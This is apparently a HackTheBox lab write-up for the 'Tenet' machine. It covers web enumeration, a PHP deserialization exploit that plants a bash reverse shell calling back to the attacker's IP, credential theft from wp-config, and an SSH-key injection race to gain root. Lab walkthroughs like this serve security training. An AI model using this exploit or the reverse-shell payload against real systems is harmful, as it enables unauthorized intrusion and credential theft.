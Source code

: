 ```yaml
---
title: Tenet Writeup
author: mooncakeza
date: 2021-06-14 14:30pm
categories: [hackthebox]
tags: [hackthebox, writeup, tenet]
math: true
image: /assets/img/htb/Tenet/00 - tenet infocard.png
---
```


# Reconnaissance

Let us start with a basic enumeration with nmap.

```bash
sudo nmap -sC -sV
```
![Tenet](/assets/img/htb/Tenet/01 nmap scan.png){:.align-center}

We go to http://10.10.10.223 and we get a default Apache page.

![Tenet](/assets/img/htb/Tenet/02 apache default page.png){:.align-center}

We then run feroxbuster web enumeration

```
feroxbuster --url http://10.10.10.223 
```

We find the following

![Tenet](/assets/img/htb/Tenet/03 feroxbuster results.png){:.align-center}

We go to http://10.10.10.223/wordpress and find it is running wordpress.
<br>
We browse around and If we hover over <b>'Tenet'</b> at the bottom we see a hostname <b>'tenet.htb'</b>

![Tenet](/assets/img/htb/Tenet/04 wordpress hostname.png){:.align-center}

We add <b>tenet.htb</b> to our hosts file and then browse to http://tenet.htb
<br>
Now everything on the site loads properly.

![Tenet](/assets/img/htb/Tenet/05 wordpress site.png){:.align-center}

After browsing around we find the following comment left by a user.

![Tenet](/assets/img/htb/Tenet/06 neil comment.png){:.align-center}

Seems like someone might have left a file called <b>sator.php</b> and maybe a backup of it?

Let's go check.
I just add <b>sator.php</b> and <b>sator.php.bak</b> into a file called words.txt and ran feroxbuster with it.

```
feroxbuster --url http://10.10.10.223 -w words.txt
```

![Tenet](/assets/img/htb/Tenet/07 - sator.png){:.align-center}

<b>Code 200</b> confirms we have an OK success status code.

Browsing to http://10.10.10.223/sator.php we get

![Tenet](/assets/img/htb/Tenet/08 - sator.php.png){:.align-center}

We then also download the <b>http://10.10.10.223/sator.php.bak</b>  and find the following code.

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

# Foothold

I struggle with these types of challenges but 
essentially looking at the code it seems we can create our own php file and insert data to get RCE.
<br>
We just have to create our own php file with code to do this request.
<br>
We can see it could be some sort of <b>PHP Deserialization RCE</b>
<br>
Looking at the following articles we can get an idea of what needs to be done.
<br>
- [https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php](https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php)
<br>
- [https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

We create our own PHP file with the following to add our reverse shell code into a file called moo.php and then call it to create a reverse shell.

```php
<?php

class DatabaseExport
{
	public $user_file = 'moo.php';
	public $data = '<?php exec("bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.104/9998 0>&1\'"); ?>';

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo 'EXPLOITED';
	}
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$url");
$response = file_get_contents("http://10.10.10.223/moo.php");
?>
```


We start a netcat listener on port 9998
<br>
We run the php file.

![Tenet](/assets/img/htb/Tenet/09 - run php.png){:.align-center}

We get a reverse shell on our netcat.

![Tenet](/assets/img/htb/Tenet/10 - reverse shell.png){:.align-center}

# User

Seeing that this is a wordpress site the first place I usually go and check for credentials is the <b>wp-config.conf</b>>. 
<br>
Jackpot.
<br>
![Tenet](/assets/img/htb/Tenet/11 - wordpress details.png){:.align-center}
<br>
I use those details to ssh into the machine and we have user on the box.
<br>

![Tenet](/assets/img/htb/Tenet/12 - neil user.png){:.align-center}
<br>
We check and there is the user flag.
<br>
![Tenet](/assets/img/htb/Tenet/13 - user flag.png){:.align-center}

# Privilege Escalation

Now for privsec
<br>
Let us check the sudoers file.
<br>
Seems we have access to a run a script as sudo.
<br>

![Tenet](/assets/img/htb/Tenet/14 - sudo.png){:.align-center}

We look at the script and find this part that is interesting.
<br>
We can inject our own ssh key!
<br>

![Tenet](/assets/img/htb/Tenet/15 - addKey.png){:.align-center}

We create our own key with <b>ssh-keygen</b>

![Tenet](/assets/img/htb/Tenet/16 - keygen.png){:.align-center}

We create a <b>while true</b> script called <b>sshkey.sh</b> to put our key in and inject it into a /tmp/ssh-* file which then injects it into the authorized_keys file for the root user.
<br>
Create a file sshkey.sh and put your public key in there. 
<br>
I had named mine moonkey.pub.
<br>
![Tenet](/assets/img/htb/Tenet/17 - for script.png){:.align-center}
<br>
Open up another terminal and ssh to the machine as neil.
<br>
Now run the script on the remote machine

```bash
chmod +x sshkey.sh
./sshkey.sh
```

Then in the other terminal run
<br>
![Tenet](/assets/img/htb/Tenet/18 - script run.png){:.align-center}
<br>
SSH Key has been added to root's authorized_keys file!
<br>
Now we try ssh with our key we generated to root.

```bash
ssh -i moonkey root@10.10.10.223
```

![Tenet](/assets/img/htb/Tenet/19 - root logged in.png){:.align-center}
<br>
We have root!
Let's grab the root flag.
<br>
![Tenet](/assets/img/htb/Tenet/20 - root flag.png){:.align-center}
